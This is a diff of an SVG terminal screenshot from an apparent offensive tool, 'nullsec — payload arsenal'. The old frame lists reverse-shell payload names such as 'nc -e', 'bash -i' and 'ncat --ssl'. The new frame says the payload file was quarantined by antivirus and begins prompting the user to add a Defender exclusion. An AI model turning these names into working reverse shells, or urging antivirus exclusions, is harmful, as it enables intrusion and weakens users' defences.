

- <svg xmlns="http://www.w3.org/2000/svg" class="rich-terminal" viewBox="0 0 1238 952.8">
+ <svg xmlns="http://www.w3.org/2000/svg" class="rich-terminal" viewBox="0 0 1238 98.8">
  <style>

    @font-face {
        font-family: "Fira Code";
        src: local("FiraCode-Regular"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff2/FiraCode-Regular.woff2") format("woff2"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff/FiraCode-Regular.woff") format("woff");
        font-style: normal;
        font-weight: 400;
    }
    @font-face {
        font-family: "Fira Code";
        src: local("FiraCode-Bold"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff2/FiraCode-Bold.woff2") format("woff2"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff/FiraCode-Bold.woff") format("woff");
        font-style: bold;
        font-weight: 700;
    }

-     .terminal-1556142248-matrix {
+     .terminal-1586421055-matrix {
        font-family: Fira Code, monospace;
        font-size: 20px;
        line-height: 24.4px;
        font-variant-east-asian: full-width;
    }

-     .terminal-1556142248-title {
+     .terminal-1586421055-title {
        font-size: 18px;
        font-weight: bold;
        font-family: arial;
    }

-     .terminal-1556142248-r1 { fill: #d9d9d9 }
- .terminal-1556142248-r2 { fill: #d9d9d9;font-weight: bold }
- .terminal-1556142248-r3 { fill: #58d1eb }
- .terminal-1556142248-r4 { fill: #98e024;font-weight: bold }
- .terminal-1556142248-r5 { fill: #878787 }
- .terminal-1556142248-r6 { fill: #878787;font-weight: bold }
+     .terminal-1586421055-r1 { fill: #fd971f }
+ .terminal-1586421055-r2 { fill: #fd971f;font-weight: bold }
+ .terminal-1586421055-r3 { fill: #d9d9d9 }
    </style>
  <defs>
-     <clipPath id="terminal-1556142248-clip-terminal">
-       <rect x="0" y="0" width="1219.0" height="901.8" />
+     <clipPath id="terminal-1586421055-clip-terminal">
+       <rect x="0" y="0" width="1219.0" height="47.8" />
    </clipPath>
-     <clipPath id="terminal-1556142248-line-0">
+     <clipPath id="terminal-1586421055-line-0">
      <rect x="0" y="1.5" width="1220" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-1556142248-line-1">
-       <rect x="0" y="25.9" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-2">
-       <rect x="0" y="50.3" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-3">
-       <rect x="0" y="74.7" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-4">
-       <rect x="0" y="99.1" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-5">
-       <rect x="0" y="123.5" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-6">
-       <rect x="0" y="147.9" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-7">
-       <rect x="0" y="172.3" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-8">
-       <rect x="0" y="196.7" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-9">
-       <rect x="0" y="221.1" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-10">
-       <rect x="0" y="245.5" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-11">
-       <rect x="0" y="269.9" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-12">
-       <rect x="0" y="294.3" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-13">
-       <rect x="0" y="318.7" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-14">
-       <rect x="0" y="343.1" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-15">
-       <rect x="0" y="367.5" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-16">
-       <rect x="0" y="391.9" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-17">
-       <rect x="0" y="416.3" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-18">
-       <rect x="0" y="440.7" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-19">
-       <rect x="0" y="465.1" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-20">
-       <rect x="0" y="489.5" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-21">
-       <rect x="0" y="513.9" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-22">
-       <rect x="0" y="538.3" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-23">
-       <rect x="0" y="562.7" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-24">
-       <rect x="0" y="587.1" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-25">
-       <rect x="0" y="611.5" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-26">
-       <rect x="0" y="635.9" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-27">
-       <rect x="0" y="660.3" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-28">
-       <rect x="0" y="684.7" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-29">
-       <rect x="0" y="709.1" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-30">
-       <rect x="0" y="733.5" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-31">
-       <rect x="0" y="757.9" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-32">
-       <rect x="0" y="782.3" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-33">
-       <rect x="0" y="806.7" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-34">
-       <rect x="0" y="831.1" width="1220" height="24.65" />
-     </clipPath>
-     <clipPath id="terminal-1556142248-line-35">
-       <rect x="0" y="855.5" width="1220" height="24.65" />
-     </clipPath>
  </defs>
-   <rect fill="#0c0c0c" stroke="rgba(255,255,255,0.35)" stroke-width="1" x="1" y="1" width="1236" height="950.8" rx="8" />
-   <text class="terminal-1556142248-title" fill="#d9d9d9" text-anchor="middle" x="618" y="27">nullsec — payload arsenal</text>
+   <rect fill="#0c0c0c" stroke="rgba(255,255,255,0.35)" stroke-width="1" x="1" y="1" width="1236" height="96.8" rx="8" />
+   <text class="terminal-1586421055-title" fill="#d9d9d9" text-anchor="middle" x="618" y="27">nullsec — payload arsenal</text>
  <g transform="translate(26,22)">
    <circle cx="0" cy="0" r="7" fill="#ff5f57" />
    <circle cx="22" cy="0" r="7" fill="#febc2e" />
    <circle cx="44" cy="0" r="7" fill="#28c840" />
  </g>
-   <g transform="translate(9, 41)" clip-path="url(#terminal-1556142248-clip-terminal)">
-     <g class="terminal-1556142248-matrix">
-       <text class="terminal-1556142248-r1" x="0" y="20" textLength="280.6" clip-path="url(#terminal-1556142248-line-0)">┌────┬────────────────┐</text>
-       <text class="terminal-1556142248-r1" x="1220" y="20" textLength="12.2" clip-path="url(#terminal-1556142248-line-0)">
+   <g transform="translate(9, 41)" clip-path="url(#terminal-1586421055-clip-terminal)">
+     <g class="terminal-1586421055-matrix">
+       <text class="terminal-1586421055-r1" x="0" y="20" textLength="158.6" clip-path="url(#terminal-1586421055-line-0)">Payload data </text>
+       <text class="terminal-1586421055-r2" x="158.6" y="20" textLength="12.2" clip-path="url(#terminal-1586421055-line-0)">(</text>
+       <text class="terminal-1586421055-r1" x="170.8" y="20" textLength="134.2" clip-path="url(#terminal-1586421055-line-0)">arsenal.dat</text>
+       <text class="terminal-1586421055-r2" x="305" y="20" textLength="12.2" clip-path="url(#terminal-1586421055-line-0)">)</text>
+       <text class="terminal-1586421055-r1" x="317.2" y="20" textLength="170.8" clip-path="url(#terminal-1586421055-line-0)"> isn't loaded.</text>
+       <text class="terminal-1586421055-r3" x="488" y="20" textLength="683.2" clip-path="url(#terminal-1586421055-line-0)"> It was likely quarantined by antivirus. Add a Defender </text>
+       <text class="terminal-1586421055-r3" x="1220" y="20" textLength="12.2" clip-path="url(#terminal-1586421055-line-0)">
</text>
-       <text class="terminal-1556142248-r1" x="0" y="44.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-1)">│</text>
-       <text class="terminal-1556142248-r2" x="24.4" y="44.4" textLength="24.4" clip-path="url(#terminal-1556142248-line-1)"> #</text>
-       <text class="terminal-1556142248-r1" x="61" y="44.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-1)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="44.4" textLength="170.8" clip-path="url(#terminal-1556142248-line-1)">Payload       </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="44.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-1)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="44.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-1)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="68.8" textLength="280.6" clip-path="url(#terminal-1556142248-line-2)">├────┼────────────────┤</text>
-       <text class="terminal-1556142248-r1" x="1220" y="68.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-2)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="93.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-3)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="93.2" textLength="24.4" clip-path="url(#terminal-1556142248-line-3)"> 1</text>
-       <text class="terminal-1556142248-r1" x="61" y="93.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-3)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="93.2" textLength="170.8" clip-path="url(#terminal-1556142248-line-3)">bash -i       </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="93.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-3)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="93.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-3)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="117.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-4)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="117.6" textLength="24.4" clip-path="url(#terminal-1556142248-line-4)"> 2</text>
-       <text class="terminal-1556142248-r1" x="61" y="117.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-4)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="117.6" textLength="170.8" clip-path="url(#terminal-1556142248-line-4)">bash 196      </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="117.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-4)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="117.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-4)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="142" textLength="12.2" clip-path="url(#terminal-1556142248-line-5)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="142" textLength="24.4" clip-path="url(#terminal-1556142248-line-5)"> 3</text>
-       <text class="terminal-1556142248-r1" x="61" y="142" textLength="12.2" clip-path="url(#terminal-1556142248-line-5)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="142" textLength="170.8" clip-path="url(#terminal-1556142248-line-5)">bash read-line</text>
-       <text class="terminal-1556142248-r1" x="268.4" y="142" textLength="12.2" clip-path="url(#terminal-1556142248-line-5)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="142" textLength="12.2" clip-path="url(#terminal-1556142248-line-5)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="166.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-6)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="166.4" textLength="24.4" clip-path="url(#terminal-1556142248-line-6)"> 4</text>
-       <text class="terminal-1556142248-r1" x="61" y="166.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-6)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="166.4" textLength="170.8" clip-path="url(#terminal-1556142248-line-6)">bash udp      </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="166.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-6)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="166.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-6)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="190.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-7)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="190.8" textLength="24.4" clip-path="url(#terminal-1556142248-line-7)"> 5</text>
-       <text class="terminal-1556142248-r1" x="61" y="190.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-7)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="190.8" textLength="170.8" clip-path="url(#terminal-1556142248-line-7)">sh -i         </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="190.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-7)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="190.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-7)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="215.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-8)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="215.2" textLength="24.4" clip-path="url(#terminal-1556142248-line-8)"> 6</text>
-       <text class="terminal-1556142248-r1" x="61" y="215.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-8)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="215.2" textLength="170.8" clip-path="url(#terminal-1556142248-line-8)">nc -e         </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="215.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-8)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="215.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-8)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="239.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-9)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="239.6" textLength="24.4" clip-path="url(#terminal-1556142248-line-9)"> 7</text>
-       <text class="terminal-1556142248-r1" x="61" y="239.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-9)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="239.6" textLength="170.8" clip-path="url(#terminal-1556142248-line-9)">nc mkfifo     </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="239.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-9)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="239.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-9)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="264" textLength="12.2" clip-path="url(#terminal-1556142248-line-10)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="264" textLength="24.4" clip-path="url(#terminal-1556142248-line-10)"> 8</text>
-       <text class="terminal-1556142248-r1" x="61" y="264" textLength="12.2" clip-path="url(#terminal-1556142248-line-10)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="264" textLength="170.8" clip-path="url(#terminal-1556142248-line-10)">ncat -e       </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="264" textLength="12.2" clip-path="url(#terminal-1556142248-line-10)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="264" textLength="12.2" clip-path="url(#terminal-1556142248-line-10)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="288.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-11)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="288.4" textLength="24.4" clip-path="url(#terminal-1556142248-line-11)"> 9</text>
-       <text class="terminal-1556142248-r1" x="61" y="288.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-11)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="288.4" textLength="170.8" clip-path="url(#terminal-1556142248-line-11)">ncat --ssl    </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="288.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-11)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="288.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-11)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="312.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-12)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="312.8" textLength="24.4" clip-path="url(#terminal-1556142248-line-12)">10</text>
-       <text class="terminal-1556142248-r1" x="61" y="312.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-12)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="312.8" textLength="170.8" clip-path="url(#terminal-1556142248-line-12)">python        </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="312.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-12)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="312.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-12)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="337.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-13)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="337.2" textLength="24.4" clip-path="url(#terminal-1556142248-line-13)">11</text>
-       <text class="terminal-1556142248-r1" x="61" y="337.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-13)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="337.2" textLength="170.8" clip-path="url(#terminal-1556142248-line-13)">python3       </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="337.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-13)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="337.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-13)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="361.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-14)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="361.6" textLength="24.4" clip-path="url(#terminal-1556142248-line-14)">12</text>
-       <text class="terminal-1556142248-r1" x="61" y="361.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-14)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="361.6" textLength="170.8" clip-path="url(#terminal-1556142248-line-14)">python3 short </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="361.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-14)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="361.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-14)">
- </text>
